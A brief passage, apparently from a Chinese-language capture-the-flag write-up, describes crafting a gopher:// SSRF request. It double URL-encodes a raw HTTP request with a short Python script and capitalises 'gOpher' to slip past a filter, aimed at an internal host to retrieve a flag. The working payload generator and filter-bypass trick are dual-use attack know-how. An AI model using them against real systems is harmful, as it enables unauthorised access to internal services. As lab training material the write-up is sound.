 构造gopher协议请求

- 两遍URL编码
- gOpher中o大写，以绕过检查

```python
import urllib.parse
filename = "http.txt"
gopher = ""
for i in open(filename).readlines():
	line = i.strip()
	gopher += line + "\r\n"
enc = urllib.parse.quote(urllib.parse.quote(gopher))
print("gOpher://172.20.0.2:8080/_"+enc)
```

将生成的数据在数据包中发送，成功获得环境中的flag

![](img/发送数据包获得flag.png)